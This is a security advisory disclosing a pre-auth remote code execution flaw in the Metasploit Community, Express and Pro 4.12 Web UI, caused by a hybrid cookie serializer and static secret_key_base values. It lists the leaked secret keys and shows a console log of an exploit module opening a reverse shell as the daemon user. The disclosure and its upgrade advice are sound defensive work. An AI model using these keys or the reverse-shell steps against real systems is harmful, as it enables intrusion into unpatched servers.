 The following two issues combine to constitute a pre-auth Remote Code Execution
vulnerability in Metasploit Community, Express and Pro 4.12 where any of
certain Weekly Release updates between 4.12.0-2016061501 and 4.12.0-2016083001
have been applied.

Both issues were patched by Rapid7 in Weekly Release 4.12.0-2016091401

A Metasploit Framework module that exploits these issues has been submitted for
inclusion at <https://github.com/rapid7/metasploit-framework/pull/7341>

Metasploit Web UI's `config.action_dispatch.cookies_serializer` is set to `:hybrid`
-----------------------------------------------------------------------------------

* OVE ID: OVE-20160904-0001
* Private disclosure date: 2016-09-04
* Public disclosure date: 2016-09-19
* Vendor advisory: <https://community.rapid7.com/community/metasploit/blog/2016/09/15/important-security-fixes-in-metasploit-4120-2016091401>
* Affected versions: Metasploit 4.12.0 up to and including 4.12.0-2016083001

Rails applications accept signed cookies for managing sessions. Rails prior to
4.1 used Marshal serialization, which allowed for arbitrary instantiation of
objects upon deserialization. Rails 4.1 introduced JSON cookie serialization
`[0]` as the new default. Deserialization of JSON does not allow for arbitrary
object instantiation, making it a much safer configuration in the event that
the cookie signing key becomes known.

Rails 4.1 also introduced 'hybrid' cookie serialization, which allows for
deserialization of both JSON and Marshal serialized cookies. This is to ease
the transition from Rails <4.1 to Rails >=4.1 and avoids the invalidation of
existing sessions when the server crosses that version boundary.

When the cookie serialization setting is either Marshal or hybrid, a remote
unauthenticated attacker with knowledge of the cookie signing key can craft
session cookies that, upon Marshal deserialization, trigger the execution of
arbitrary code `[1]`.

Metasploit Community, Express and Pro has the Web UI's
`config.action_dispatch.cookies_serializer` setting set to `:hybrid` before
Metasploit 4.12.0-2016091401

Rapid7 changed the Metasploit UI's `config.action_dispatch.cookies_serializer`
setting to `:json` in Metasploit 4.12.0-2016091401.

Users should upgrade to Metasploit 4.12.0-2016091401 or newer.

References:

* `[0]` <http://blog.bigbinary.com/2014/12/23/migrating-existing-session-cookies-while-upgrading-to-rails-4-1-and-above.html>
* `[1]` <https://www.rapid7.com/db/modules/exploit/multi/http/rails_secret_deserialization>

Metasploit Weekly Release Static `secret_key_base` pre-auth RCE
---------------------------------------------------------------

* OVE ID: OVE-20160904-0002
* Private disclosure date: 2016-09-04
* Public disclosure date: 2016-09-19
* Vendor advisory: https://community.rapid7.com/community/metasploit/blog/2016/09/15/important-security-fixes-in-metasploit-4120-2016091401
* Affected versions: Metasploit 4.12.0-2016061501 up to and including 4.12.0-2016083001

Metasploit Community, Express and Pro, after having had any of a particular set
of Weekly Release updates applied, will have a static and publicly discoverable
`secret_key_base` value for its Web UI. This allows a remote unauthenticated
attacker to craft a signed cookie that will be deserialized by the application.
Due to the fact that Metasploit has its
`config.action_dispatch.cookies_serializer` setting set to `:hybrid`, this
allows a remote unauthenticated attacker to cause the deserialization of
arbitrary Marshalled objects, resulting in pre-auth RCE as the `daemon` user.

The known `secret_key_base` values are as follows:

```text
4.12.0-2016061501,d25e9ad8c9a1558a6864bc38b1c79eafef479ccee5ad0b4b2ff6a917cd8db4c6b80d1bf1ea960f8ef922ddfebd4525fcff253a18dd78a18275311d45770e5c9103fc7b639ecbd13e9c2dbba3da5c20ef2b5cbea0308acfc29239a135724ddc902ccc6a378b696600a1661ed92666ead9cdbf1b684486f5c5e6b9b13226982dd7
4.12.0-2016062101,99988ff528cc0e9aa0cc52dc97fe1dd1fcbedb6df6ca71f6f5553994e6294d213fcf533a115da859ca16e9190c53ddd5962ddd171c2e31a168fb8a8f3ef000f1a64b59a4ea3c5ec9961a0db0945cae90a70fd64eb7fb500662fc9e7569c90b20998adeca450362e5ca80d0045b6ae1d54caf4b8e6d89cc4ebef3fd4928625bfc
4.12.0-2016072501,446db15aeb1b4394575e093e43fae0fc8c4e81d314696ac42599e53a70a5ebe9c234e6fa15540e1fc3ae4e99ad64531ab10c5a4deca10c20ba6ce2ae77f70e7975918fbaaea56ed701213341be929091a570404774fd65a0c68b2e63f456a0140ac919c6ec291a766058f063beeb50cedd666b178bce5a9b7e2f3984e37e8fde
4.12.0-2016081001,61c64764ca3e28772bddd3b4a666d5a5611a50ceb07e3bd5847926b0423987218cfc81468c84a7737c23c27562cb9bf40bc1519db110bf669987c7bb7fd4e1850f601c2bf170f4b75afabf86d40c428e4d103b2fe6952835521f40b23dbd9c3cac55b543aef2fb222441b3ae29c3abbd59433504198753df0e70dd3927f7105a
4.12.0-2016081201,23bbd1fdebdc5a27ed2cb2eea6779fdd6b7a1fa5373f5eeb27450765f22d3f744ad76bd7fbf59ed687a1aba481204045259b70b264f4731d124828779c99d47554c0133a537652eba268b231c900727b6602d8e5c6a73fe230a8e286e975f1765c574431171bc2af0c0890988cc11cb4e93d363c5edc15d5a15ec568168daf32
4.12.0-2016083001,18edd3c0c08da473b0c94f114de417b3cd41dace1dacd67616b864cbe60b6628e8a030e1981cef3eb4b57b0498ad6fb22c24369edc852c5335e27670220ea38f1eecf5c7bb3217472c8df3213bc314af30be33cd6f3944ba524c16cafb19489a95d969ada268df37761c0a2b68c0eeafb1355a58a9a6a89c9296bfd606a79615
unreleased build,b4bc1fa288894518088bf70c825e5ce6d5b16bbf20020018272383e09e5677757c6f1cc12eb39421eaf57f81822a434af10971b5762ae64cb1119054078b7201fa6c5e7aacdc00d5837a50b20a049bd502fcf7ed86b360d7c71942b983a547dde26a170bec3f11f42bee6a494dc2c11ae7dbd6d17927349cdcb81f0e9f17d22c
```

Code execution can be achieved using the Metasploit Framework module
`exploit/multi/http/rails_secret_deserialization`. Note that, as of the time of
writing, this module does not work against modern Ruby. There is an open PR
`[0]` that fixes the popchain to make this module great again.

A standalone module that exploits this issue has been submitted for inclusion
in Metasploit Framework `[1]`:

```text
msf exploit(metasploit_static_secret_key_base) > info

       Name: Metasploit Web UI Static secret_key_base Value
     Module: exploit/multi/http/metasploit_static_secret_key_base
   Platform: Ruby
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2016-09-15

Provided by:
  Justin Steven
  joernchen of Phenoelit <joernchen@phenoelit.de>

Available targets:
  Id  Name
  --  ----
  0   Metasploit 4.12.0-2016061501 to 4.12.0-2016083001

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                       yes       The target address
  RPORT      3790             yes       The target port
  SSL        true             no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The path to the Metasploit Web UI
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits the Web UI for Metasploit Community, Express
  and Pro where one of a certain set of Weekly Releases have been
  applied. These Weekly Releases introduced a static secret_key_base
  value. Knowledge of the static secret_key_base value allows for
  deserialization of a crafted Ruby Object, achieving code execution.
  This module is based on
  exploits/multi/http/rails_secret_deserialization

References:
  OVE (20160904-0002)
  https://community.rapid7.com/community/metasploit/blog/2016/09/15/important-security-fixes-in-metasploit-4120-2016091401

msf exploit(metasploit_static_secret_key_base) > set RHOST 172.18.0.2
RHOST => 172.18.0.2
msf exploit(metasploit_static_secret_key_base) > set PAYLOAD ruby/shell_reverse_tcp
PAYLOAD => ruby/shell_reverse_tcp
msf exploit(metasploit_static_secret_key_base) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf exploit(metasploit_static_secret_key_base) > set LPORT 4444
LPORT => 4444
msf exploit(metasploit_static_secret_key_base) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Checking for cookie _ui_session
[*] Searching for proper SECRET
[*] Sending cookie _ui_session
[*] Command shell session 1 opened (172.18.0.1:4444 -> 172.18.0.2:47590) at 2016-09-19 19:26:30 +1000

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
exit
^C
Abort session 1? [y/N]  y

[*] 172.18.0.2 - Command shell session 1 closed.  Reason: User exit
```

Rapid7 addressed this issue in Metasploit 4.12.0-2016091401. Upon installing
the update, it will check if one of the known `secret_key_base` values are in
use, and if so, will regenerate it.

Users should upgrade to Metasploit 4.12.0-2016091401 or newer.

References:

* `[0]` <https://github.com/rapid7/metasploit-framework/pull/7304>
* `[1]` <https://github.com/rapid7/metasploit-framework/pull/7341>

Justin Steven

<https://twitter.com/justinsteven>
